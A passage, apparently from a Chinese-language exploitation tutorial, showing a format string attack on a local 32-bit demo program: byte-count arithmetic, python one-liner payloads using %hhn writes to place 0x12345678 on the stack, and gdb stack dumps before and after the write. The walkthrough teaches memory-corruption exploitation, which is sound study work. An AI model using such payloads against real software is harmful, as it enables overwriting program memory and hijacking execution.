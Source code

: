 前面是4个写入地址，共4*4=16个字节。后面部分是写入部分，使用了`hh`，故只会保留1个字节

第一个地址要存放0x78，故还需要输出104（16+104=120=0x78）

第二个地址要存放0x56，故还需要输出222（120+222=342=0x0156）

第三个地址要存放0x34，故还需要输出222（342+222=564=0x0234）

第四个地址要存放0x12，故还需要输出222（564+222=786=0x312）

最终payload：

```
python -c 'print("\x08\xce\xff\xff"+"\x09\xce\xff\xff"+"\x0a\xce\xff\xff"+"\x0b\xce\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn")' >text222
```

第三步：执行，在printf处设置断点

scanf输入的值：

```
python -c 'print("\x2a\xce\xff\xff"+"\x2b\xce\xff\xff"+"\x2c\xce\xff\xff"+"\x2d\xce\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn")' >text222
```

断点前：

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 --> 0xffffce2a ("ABCD")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 --> 0xffffce2a ("ABCD")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
```

断点后：

```
[------------------------------------stack-------------------------------------]
0000| 0xffffce00 --> 0xffffce34 --> 0xffffce2a --> 0x12345678 
0004| 0xffffce04 --> 0x1 
0008| 0xffffce08 --> 0x88888888 
0012| 0xffffce0c --> 0xffffffff 
0016| 0xffffce10 --> 0xffffce2a --> 0x12345678 
0020| 0xffffce14 --> 0xffffce34 --> 0xffffce2a --> 0x12345678 
0024| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
0028| 0xffffce1c --> 0xffffce88 --> 0xf7e13dc8 --> 0x2b76 ('v+')
[------------------------------------------------------------------------------]
```

成功更改arg2的值

**注：**
